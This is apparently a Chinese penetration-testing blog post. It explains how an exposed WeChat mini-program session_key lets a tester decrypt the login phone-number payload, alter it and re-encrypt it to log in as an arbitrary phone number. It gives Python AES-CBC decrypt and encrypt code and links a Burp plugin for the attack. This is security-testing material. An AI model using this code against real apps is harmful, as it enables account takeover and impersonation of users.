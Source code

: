 ```yaml
---
layout:     post
title:    wx小程序session_key利用插件
subtitle:   burp插件
date:       2020-08-04
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 工具
    
    
    
---
```

# wx小程序session_key利用

## 开头
学习Poc Sir老师傅的微信小程序渗透五脉，最近在测试的过程种发现了一例快捷登录存在问题的小程序，要进行加解密，写了一个简单的burp插件，方便后续的工作。  
具体的原理这里不再进一步赘述。有兴趣的可以去看雷神众测的文章。  


## 中间
测试的时候发现一个小程序，能快捷登陆。  
![200804_1](/img/200804_login.jpg)   
抓登陆的包可以看到，啥都给出来的，显然存在问题，可以进行解密，篡改。  
![200804_2](/img/200804_logindata.jpg)  
然后来尝试加解密。  

## 加解密代码
在获取到session_key，以及iv的情况下，直接可以进行解密：  
```
#!python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import base64
from Crypto.Cipher import *


def decrypt(enStr, key, iv):
        cipher = AES.new(key, AES.MODE_CBC, iv)
        msg = cipher.decrypt(enStr)
        paddingLen = ord(msg[len(msg)-1])
        return msg[0:-paddingLen]


def decryptData(encryptedData, iv, sessionKey):
	aesIV = base64.b64decode(iv)
	aesCipher = base64.b64decode(encryptedData)
	aesKey = base64.b64decode(sessionKey)
	return decrypt(aesCipher, aesKey, aesIV)


if __name__ == '__main__':
	print decryptData(data, iv, sessionkey)
```
得到的结果格式如下：  
```
{
    "phoneNumber": "+85259883333",
    "purePhoneNumber": "59883333",
    "countryCode": "852",
    "watermark":
    {
        "appid":"APPID",
        "timestamp": TIMESTAMP
    }
}
```  
解密的结果：  
![200804_3](/img/200804_decrypt.jpg)  
然后可以对其进行修改后进行伪造，完成任意手机号码登陆。  
加密的代码：  
```
#!python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import base64
from Crypto.Cipher import AES


def encrypt(str, key, iv):
    cipher = AES.new(key, AES.MODE_CBC,iv)
    x = 16 - (len(str) % 16)
    if x != 0:
        str = str + chr(x)*x
    msg = base64.b64encode(cipher.encrypt(str))
    return msg

def encryptData(decryptedData, iv, sessionKey):
	aesIV = base64.b64decode(iv)
	aesKey = base64.b64decode(sessionKey) 
	return encrypt(decryptedData, aesKey, aesIV)

if __name__ == '__main__':
	print encryptData(data, iv, sessionKey)
```   
然后将得到的结果替换报文原来的加密内容。（这里是一次性有效的，无论成功与否）  


## 插件
简单的写了个burp的插件。  
![200804_4](/img/200804_burp.jpg)  
存在问题可以及时联系，或者自行修改
项目地址:[https://github.com/hmoytx/bp_miniprogram_decrypt](https://github.com/hmoytx/bp_miniprogram_decrypt)  

## 参考
![https://www.hackinn.com/index.php/archives/672/](https://www.hackinn.com/index.php/archives/672/)


